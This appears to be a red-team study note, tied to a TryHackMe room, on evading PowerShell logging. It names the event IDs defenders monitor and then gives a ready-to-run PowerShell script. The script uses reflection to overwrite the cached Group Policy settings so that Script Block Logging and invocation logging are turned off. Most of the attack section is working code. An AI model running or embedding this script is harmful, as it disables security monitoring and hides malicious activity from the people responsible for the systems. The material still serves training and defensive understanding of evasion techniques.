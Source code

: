 # ETW Evasion Group Policy Takeover

- Enabled from Group Policy:
	- `Search -> Run -> gpedit.msc
	- `Administrative Templates -> Windows Components -> Windows PowerShell`. 
	- `Turn on PowerShell Script Block Logging`

[[Windows-Events-To-Monitor]]:

|**Event ID**|**Purpose**|
|---|---|
|4103|Logs command invocation|
|4104|Logs script block execution|


Group Policy Takeover
1. Obtain group policy settings from the utility cache - type of `System.Management.Automation.Utils` and identify the GPO cache field: `cachedGroupPolicySettings`
```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
```
2. Modify generic provider to `0`.  In this case `EnableScriptBlockLogging` for takeover of Script Block Logging
```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
```
3. Modify the invocation or module definition   In this case `EnableScriptBlockInvocationLogging` for takeover of Script Block Logging
```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

Full script:
```powershell
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```

## References

[THM Evading Logging and Monitoring](https://tryhackme.com/room/monitoringevasion)
[Microsoft DevBlogs - Use PowerShell to Find ETW Providers](https://devblogs.microsoft.com/scripting/powertip-use-powershell-to-find-etw-providers/)
[Microsoft Documentation - PowerShell Logging](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.3)
[Medime - Ammad Ali - PowerShell Logging: Module Logging vs Script Block Logging](https://medium.com/@ammadb/powershell-logging-module-logging-vs-script-block-logging-7aa74bf66261)